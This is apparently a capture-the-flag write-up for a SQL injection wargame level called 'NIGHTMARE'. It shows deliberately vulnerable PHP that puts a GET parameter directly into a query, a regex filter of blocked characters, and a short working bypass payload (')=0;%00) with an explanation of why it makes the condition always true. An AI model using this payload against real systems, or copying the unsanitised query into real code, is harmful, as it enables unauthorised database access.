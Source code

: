 # NIGHTMARE 
```
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)|#|-/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(strlen($_GET[pw])>6) exit("No Hack ~_~"); 
  $query = "select id from prob_nightmare where pw=('{$_GET[pw]}') and id!='admin'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) solve("nightmare"); 
  highlight_file(__FILE__); 
?>
```
-- - and # are blocked for commenting out the rest part of the query.Using ')=0 which is always true because 0=0 is always true.
pw=')=0;%00 '%00' for commenting out .
***
### query : select id from prob_nightmare where pw=('')=0;') and id!='admin'
***
